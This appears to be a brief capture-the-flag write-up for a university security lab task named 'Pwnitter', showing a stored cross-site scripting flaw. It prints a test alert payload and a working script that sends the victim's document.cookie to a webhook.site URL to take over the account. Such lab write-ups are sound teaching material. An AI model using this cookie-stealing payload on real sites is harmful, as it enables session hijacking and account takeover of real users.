

  
> Pwnitter - http://pwnitter.tasks.prak.seclab.cs.msu.ru/

> [!TIP]
> You need to log in to the main person's account on the website, as they have the flag on their account.

If you send a message to yourself
``` javascript
<script>alert(1)</script>
```

and go to the message, then it displays
a modal window with `alert(1)`. 
This means that what I send to the server is executed after

I will send
``` javascript
<script>location.href="https://webhook.site/b58ae2d1-50b1-44e1-b88c-9acd2ad9bbdc?"+document.cookie</script>
```

Cookies are sent to the webhook, and there is already a flag on the account 🎉
